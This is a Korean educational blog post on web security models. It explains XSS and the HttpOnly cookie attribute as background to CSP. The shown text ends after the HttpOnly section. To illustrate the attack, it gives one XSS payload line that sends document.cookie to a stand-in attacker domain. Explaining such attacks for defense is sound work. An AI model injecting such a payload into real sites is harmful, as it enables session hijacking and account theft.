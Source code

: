```yaml
---
layout: post
title: "이해하기 쉬운 웹 보안 모델 이야기 2 (CSP)"
author: "zairo"
comments: true
tags: [web]
---
```


라온화이트햇 핵심연구팀 박의성

## 1. 개요

본 문서는 지난 시리즈인 SOP(Same-Origin Policy)와 CORS(Cross-Origin Resource Sharing)에 이어서 또 다른 웹 보안 모델인 CSP(Content Security Policy)에 대해 서술한 문서입니다. CSP 또한 많은 웹 개발자 분들과 보안 연구원 분들을 귀찮고 힘들게(?) 하는 정책이자, 웹 상에서 취약점으로 인해 정보가 탈취되거나 악의적인 행위가 수행되지 않도록 막아주는 중요한 정책 입니다. 이번 글은 지난 글에 이어진 이야기로 이해를 돕기 위해 "이해하기 쉬운 웹 보안 모델 이야기" 시리즈의 이전 글인 "이해하기 쉬운 웹 보안 모델 이야기 1 (SOP, CORS)"을 먼저 읽고 오시길 권장드립니다.

## 2. 웹 브라우저 보안의 천적, XSS 취약점

웹의 기본적인 보안 정책은 지난 글에서 설명 드렸던 Same-Origin Policy(이하 SOP)에 뿌리를 두고 있습니다. SOP의 웹 보안 모델의 본래의 설계 목적은 JavaScript와 같은 언어가 해당 사이트 개발자가 설계한대로만 실행된다는 것을 전제로 JavaScript 내에서 타 도메인에 접근하지 못하게 하여 웹과 웹 간의 분리가 되는 완벽한 샌드박스를 기대하며 설계하였습니다. 

하지만 기대와 현실은 달랐습니다. 웹과 웹 간의 분리가 되는 완벽한 샌드박스와는 달리 현실은 해커가 해당 브라우저 내의 쿠키를 포함한 정보들을 탈취 할 수 있었습니다. 바로 Cross-site scripting(이하 XSS) 취약점 때문 입니다. 

XSS 취약점은 웹사이트 관리자가 아닌 사람이 웹 페이지에 악성 스크립트를 삽입할 수 있는 취약점입니다. XSS 취약점은 웹 브라우저가 생겨난 1990년대부터 보고 되었고 2000년 1월에 XSS라는 명칭이 붙었다고 알려져 있습니다. 가장 일반적인 보안 취약점으로 알려져 있으며 현재까지도 가장 많이 발견되고 있는 취약점 중 하나 입니다. 

웹 개발자의 실수로 외부로부터 입력되는 파라미터에 대한 적절한 검증을 거치지 않고 페이지 내부에 포함하는 기능을 구현하였고, 해커는 이 기능을 악용하여 XSS 취약점으로 파라미터를 통해 정보를 탈취하는 악성 스크립트를 삽입하였습니다. 이렇게 삽입된 스크립트는 피해자의 브라우저에서 실행되어 사용자 브라우저의 정보를 탈취할 수 있었습니다. 

예를 들어, 공격자가 `location.href='http://example.com?'+document.cookie`와 같은 스크립트를 삽입하게 되면 삽입한 스크립트는 피해자의 브라우저에서 실행되고, 사용자의 세션 ID가 포함된 쿠키 값이 공격자가 설정한 도메인으로 전송 되어 공격자는 서버로 전송된 값을 탈취할 수 있게 됩니다. 이후 공격자는 탈취한 세션 ID를 통해 해당 페이지에 접속하여 사용자의 계정을 탈취할 수 있습니다. 만약, 사건의 발단인 웹 개발자의 실수가 없었다면 SOP 정책의 설계상 정보가 탈취되는 일은 발생하지 않았을 것 입니다.

## 3. Set-Cookie HttpOnly

이제부터는 XSS 취약점에 의해 사용자의 정보가 위험한 상태에서 이를 보완할 수 있는 보안 정책을 알아보겠습니다. 먼저 알아볼 Set-Cookie 응답 헤더는 서버에서 사용자 브라우저에 쿠키를 전송하기 위해 사용됩니다. 이 Set-Cookie 헤더에는 XSS 취약점을 이용한 공격을 방해하기 위한 HttpOnly 속성이 존재합니다. HttpOnly 속성은 JavaScript에서의 document.cookie에 대한 접근을 차단하는 정책으로 XSS 취약점을 완화하기 위한 목적으로 설계되었으며 2008년 Firefox 3.0에 최초로 적용되었습니다. 

일반적으로 공격자들이 XSS 취약점을 활용하여 많이 노리는 것은 세션 ID가 포함된 쿠키 값 입니다. 왜냐하면 공격자가 세션 ID가 포함된 쿠키 값만 획득하게 되면 해당 사용자 계정을 탈취할 수 있고 그 후 탈취한 계정을 가지고 악의적인 행위를 할 수 있기 때문입니다. HttpOnly 속성은 공격자들이 가장 많이 노리는 세션 ID가 포함된 쿠키 값에 대해 JavaScript에서 접근을 차단함으로써 근본적으로 XSS 취약점을 활용한 계정 탈취가 불가능하도록 하는 정책입니다.

```
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```
